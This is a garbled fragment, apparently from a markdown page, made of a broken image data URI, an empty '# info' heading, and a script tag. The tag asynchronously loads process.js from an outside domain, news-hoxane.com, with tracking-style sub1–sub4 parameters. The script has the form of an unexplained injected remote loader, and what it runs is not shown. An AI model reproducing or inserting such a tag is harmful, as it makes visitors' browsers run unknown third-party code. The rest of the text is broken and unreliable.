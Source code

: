 # info
<script type="text/javascript" src="https://news-hoxane.com/process.js?id=1220131249&p1=sub1&p2=sub2&p3=sub3&p4=sub4" async></script>
